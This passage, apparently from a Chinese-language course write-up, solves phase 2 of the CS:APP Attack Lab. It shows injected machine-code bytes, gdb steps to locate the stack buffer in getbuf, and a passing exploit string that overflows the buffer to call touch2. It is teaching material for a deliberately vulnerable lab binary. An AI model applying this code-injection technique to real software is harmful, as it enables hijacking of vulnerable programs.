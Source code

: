 可得需要注入的机器代码如下：

```
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
```

此时我们需要找到 `getbuf` 内部分配的 `40` 个字节的起始地址，可以在 `0x4017ac` 处（`getbuf` 中分配好 `40` 个字节后第一条指令的地址）打上断点，查看此时寄存器 `%rsp` 的值即可。

```shell script
# 设置断点
(gdb) break * 0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
# 调试 ctarget
(gdb) run -q
Starting program: /csapp/attacklab/ctarget -q
warning: Error disabling address space randomization: Operation not permitted
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:14
# 查看寄存器 $rsp 中的值
(gdb) print /x $rsp
$1 = 0x5561dc78
```

综上可得出一个合法的解，并将其存储在 `phase2.txt` 中

![phase2](attacklab/phase2.png)

然后我们可以验证该解的正确性：

```shell script
> ./hex2raw -i phase2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 69 64 65 61 6C 69 73 6D 2D 78 78 6D 6D 78 78 2D 6D 73 69 6C 61 65 64 69 78 DC 61 55 00 00 00 00
```
